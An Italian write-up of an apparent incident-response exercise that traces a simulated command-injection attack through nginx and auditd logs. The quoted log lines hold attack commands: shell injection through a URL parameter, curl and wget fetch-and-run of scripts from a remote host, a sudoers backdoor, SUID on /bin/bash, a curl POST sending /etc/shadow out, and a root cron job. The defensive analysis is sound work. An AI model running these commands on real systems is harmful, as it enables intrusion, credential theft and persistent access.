 

## Obiettivo dell’esercizio
L’obiettivo di questo esercizio è identificare e ricostruire un tentativo di **Remote Code Execution (RCE)** sul server web, analizzando i log e correlando gli eventi.  
Il focus è sull’individuazione dell’iniezione di comandi tramite parametri URL e sulla conferma della loro esecuzione a livello di sistema.  

*(Ref: MITRE ATT&CK — T1059.004: Command and Scripting Interpreter, Unix Shell)* 

##  Log di riferimento

Web Access Logs sample
![ ](../image/a1.png)

system and security log sample
![ ](../image/a2.png)

## Accesso iniziale

Il mio primo passo è stato cercare nei log di nginx durante il tempo indicato dall’alert. Ho filtrato le richieste GET sospette che contenevano caratteri di shell (;, |, ecc.). La prima voce rilevante era:
```
2025-08-22 06:15:09 WEB01 nginx[2431]: 198.51.100.24 - - [22/Aug/2025:06:15:09 +0000] "GET /product?id=5;uname+-a HTTP/1.1" 200 432 "-" "Mozilla/5.0"
```

Il punto e virgola e il comando uname -a indicano un tentativo di iniezione di comandi. Questo tipo di comando viene spesso usato per testare se l'esecuzione è possibile. Dovevo confermare se era stato eseguito davvero.
Sono passato ai log di auditd e ho filtrato per voci EXECVE intorno allo stesso orario. Un secondo dopo, ho trovato:
```
2025-08-22 06:15:10 WEB01 auditd[1172]: EXECVE cmd=uname args=["uname","-a"] cwd="/var/www/app" pid=2435 uid=33
```

Questo conferma che il comando è stato eseguito, sotto uid=33, che corrisponde di solito all’utente www-data. Quindi il server era vulnerabile e l’attaccante aveva ottenuto esecuzione di comandi.
Per vedere se continuava, ho cercato altre richieste sospette dallo stesso IP subito dopo. Ho trovato questa:
```
2025-08-22 06:15:22 WEB01 nginx[2431]: 198.51.100.24 - - [22/Aug/2025:06:15:22 +0000] "GET /product?id=5;cat+/etc/passwd HTTP/1.1" 200 1021 "-" "Mozilla/5.0"
```

Ho verificato nei log di auditd per confermare l'esecuzione:
```
2025-08-22 06:15:23 WEB01 auditd[1172]: EXECVE cmd=cat args=["cat","/etc/passwd"] cwd="/var/www/app" pid=2437 uid=33
```

A questo punto avevo un pattern chiaro:

•	L’attaccante ha iniettato comandi shell usando un parametro vulnerabile.

•	Ogni richiesta era seguita da una voce EXECVE che conferma l’esecuzione.

•	Tutti i comandi erano eseguiti con lo stesso utente non-root.

Avevo quindi confermato l’accesso iniziale tramite iniezione di comandi e visto che l’attaccante stava facendo ricognizione. Non c’erano ancora segni di escalation di privilegi, ma il mio prossimo passo era cercare eventuali download di file o cambiamenti nei permessi.

# Esecuzioni successive e primi segnali di escalation
Dopo aver confermato che l’attaccante poteva eseguire comandi, ho cercato nei log se aveva provato a scaricare o eseguire altri script. Ho filtrato nei log nginx le richieste con comandi curl o wget, perché spesso sono usati per scaricare payload.

```
2025-08-22 06:16:18 WEB01 nginx[2431]: 198.51.100.24 - - [22/Aug/2025:06:16:18 +0000] "GET /product?id=5;curl+http://198.51.100.77/shell.sh|bash HTTP/1.1" 200 231 "-" "Mozilla/5.0"
```
Il comando usa curl per scaricare uno script remoto e lo esegue direttamente con bash. Per verificare, ho controllato i log di auditd nello stesso momento:
```
2025-08-22 06:16:19 WEB01 auditd[1172]: EXECVE cmd=curl args=["curl","http://198.51.100.77/shell.sh"] cwd="/var/www/app" pid=2440 uid=33
```

Il comando è stato eseguito come uid=33, quindi lo script remoto è stato scaricato ed eseguito come utente www-data. Ho continuato a cercare per vedere se c’erano altri download. Poco dopo, ho trovato questa seconda richiesta:
```
2025-08-22 06:18:44 WEB01 nginx[2431]: 198.51.100.24 - - [22/Aug/2025:06:18:44 +0000] "GET /product?id=5;wget+http://198.51.100.77/dropper.sh+-O+/tmp/x.sh;sh+/tmp/x.sh HTTP/1.1" 200 452 "-" "Mozilla/5.0"
```

Qui viene scaricato un secondo script (dropper.sh) e salvato in /tmp/x.sh, poi eseguito subito con sh. Nei log auditd ì:
```
2025-08-22 06:18:45 WEB01 auditd[1172]: EXECVE cmd=wget args=["wget","http://198.51.100.77/dropper.sh","-O","/tmp/x.sh"] cwd="/var/www/app" pid=2444 uid=33
```
```
2025-08-22 06:18:45 WEB01 auditd[1172]: EXECVE cmd=sh args=["sh","/tmp/x.sh"] cwd="/var/www/app" pid=2445 uid=33
```
Queste righe confermano che lo script dropper è stato salvato nella cartella temporanea ed eseguito. A questo punto ho iniziato a tracciare tutto ciò che accadeva dopo sh /tmp/x.sh, usando il PID 2445 come riferimento.
Ho trovato altri comandi eseguiti da quello script:
```
2025-08-22 06:19:18 WEB01 bash[2453]: wget: saved file "/tmp/x.sh" size=214 bytes
2025-08-22 06:19:31 WEB01 auditd[1172]: EXECVE cmd=chmod args=["chmod","+x","/tmp/x.sh"] cwd="/var/www/app" pid=2452 uid=33
2025-08-22 06:19:36 WEB01 auditd[1172]: EXECVE cmd=/tmp/x.sh args=["/tmp/x.sh"] cwd="/var/www/app" pid=2453 uid=33
2025-08-22 06:19:39 WEB01 bash[2453]: useradd attacker -m -s /bin/bash
2025-08-22 06:19:44 WEB01 bash[2453]: echo 'attacker ALL=(ALL) NOPASSWD:ALL' >> /etc/sudoers
```

Ho notato che lo script ha creato un utente chiamato attacker e ha cercato di modificarne i privilegi. Il file /etc/sudoers richiede privilegi root, quindi a questo punto ho iniziato a sospettare che l’attaccante stesse tentando l’escalation.
Tuttavia, fino a questo momento tutti i comandi risultavano ancora eseguiti come uid=33. Non c’era ancora prova concreta che l’attaccante avesse ottenuto accesso root, ma i tentativi erano chiari.


# Esfiltrazione e persistenza finale
Dopo aver visto che lo script cercava di modificare /etc/sudoers, ho deciso di concentrarmi sui log auditd per trovare segnali di privilege escalation riuscita. Ho continuato a filtrare gli EXECVE dopo l’esecuzione di /tmp/x.sh.
Il primo evento chiave è stato questo:
`
2025-08-22 06:19:50 WEB01 auditd[1172]: EXECVE cmd=chmod args=["chmod","+s","/bin/bash"] cwd="/var/www/app" pid=2455 uid=0 auid=0
`

Qui ho finalmente visto un comando eseguito da uid=0 (root). L’attaccante ha impostato il bit SUID su /bin/bash, creando un backdoor permanente con privilegi root. Questo è un chiaro segnale di escalation completata.
Ho cercato cosa è successo subito dopo ....
```
2025-08-22 06:20:11 WEB01 auditd[1172]: EXECVE cmd=curl args=["curl","-X","POST","-d","$(cat /etc/shadow)","http://198.51.100.77/exfil"] cwd="/var/www/app" pid=2456 uid=0 auid=0
```

L’attaccante ha usato curl per inviare il contenuto di /etc/shadow verso un server remoto. Questo file contiene le hash delle password e può essere letto solo da root. Il fatto che il comando è stato eseguito da uid=0 conferma che i privilegi root erano stati ottenuti con successo.
Infine, ho voluto vedere se era stata impostata qualche forma di persistenza. Ho controllato le modifiche nei file di sistema e ...
```
2025-08-22 06:20:23 WEB01 bash[2453]: cron job created: "* * * * * root /tmp/x.sh" in /etc/crontab
```

Questa voce indica che è stato aggiunto un job cron per eseguire /tmp/x.sh ogni minuto come utente root. È un metodo semplice ma efficace per mantenere accesso continuo al sistema anche dopo un riavvio.

A questo punto ho l'intero quadro dell'attacco:

•	Accesso iniziale tramite iniezione di comandi

•	Download ed esecuzione di payload remoti

•	Escalation dei privilegi tramite chmod +s /bin/bash

•	Esfiltrazione del file /etc/shadow

•	Persistenza tramite cron


